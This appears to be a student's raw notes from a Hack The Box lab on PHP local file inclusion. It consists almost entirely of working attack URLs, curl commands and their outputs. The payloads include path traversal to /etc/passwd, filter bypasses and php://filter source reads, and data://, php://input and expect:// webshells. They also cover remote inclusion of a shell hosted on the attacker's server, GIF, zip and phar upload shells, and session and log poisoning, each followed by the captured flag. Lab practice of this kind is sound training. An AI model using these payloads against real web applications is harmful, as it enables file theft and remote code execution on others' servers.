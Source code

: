 http://94.237.49.166:56586/index.php?language=../../../../etc/passwd
barry

http://94.237.49.166:56586/index.php?language=../../../../usr/share/flags/flag.txt
HTB{n3v3r_tru$t_u$3r_!nput}

languages//....//....//....//....//....//etc/passwd
http://83.136.255.150:55558/index.php?language=%6c%61%6e%67%75%61%67%65%73%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%65%74%63%2f%70%61%73%73%77%64

languages//....//....//....//....//....//flag.txt
http://83.136.255.150:55558/index.php?language=%6c%61%6e%67%75%61%67%65%73%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%66%6c%61%67%2e%74%78%74

HTB{64$!c_f!lt3r$_w0nt_$t0p_lf!}

fuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://83.136.253.251:45849/FUZZ.php
en                      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 275ms]
es                      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 275ms]
configure               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 276ms]

http://83.136.253.251:45849/index.php?language=php://filter/read=convert.base64-encode/resource=configure

echo "hash" | base64 -d #decrypt
HTB{n3v3r_$t0r3_pl4!nt3xt_cr3d$}

php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"


echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id

http://94.237.62.195:45255/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id

curl -s -X POST --data '<?php system($_GET["c-m-d"]); ?>' "http://94.237.62.195:45255/index.php?language=php://input&cmd=id" | grep uid

echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"

http://94.237.62.195:45255/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=ls /
http://94.237.62.195:45255/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=cat%20/37809e2f8952f06139011994726d9ef1.txt

HTB{d!$46l3_r3m0t3_url_!nclud3}

##
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_includ

echo "<php? system($_GET['']); ?>"

sudo python3 -m http.server <LISTENING_PORT>
sudo python -m pyftpdlib -p 21
impacket-smbserver -smb2support share $(pwd)

10.129.29.114/index.php?language=http://10.10.15.82:8080/shell.php&cmd=id

http://10.129.29.114/index.php?language=http://10.10.15.82:8080/shell.php&cmd=cat%20/exercise/flag.txt
99a8fc05f033f2fc0cf9a6f9826f83f4

##

echo 'GIF8<?php system($_GET["c-m-d"]); ?>' > shell.gif

<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id

echo '<?php system($_GET["c-m-d"]); ?>' > shell.php && zip shell.jpg shell.php
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id

```
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["c-m-d"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg

http://94.237.62.195:51553/index.php?language=./profile_images/shell.gif&cmd=cat%20/2f40d853e2d4768d87da1c81772bae0a.txt
HTB{upl04d+lf!+3x3cut3=rc3}

##
PHPSESSID cookie value is nhhv8i0o6ua4g88bkdl9u1fdsd

http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning #ini ketika user melakukan sesi jadi kita bisa mengintip sesi orang
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd

http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id

curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['c-m-d']); ?>"

http://83.136.253.251:46020/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E #tab 1
http://83.136.253.251:46020/index.php?language=/var/lib/php/sessions/sess_7a3mr9ipn6d3n052siu1emb3dm&cmd=pwd #tab 2
/var/www/html

HTB{1095_5#0u1d_n3v3r_63_3xp053d}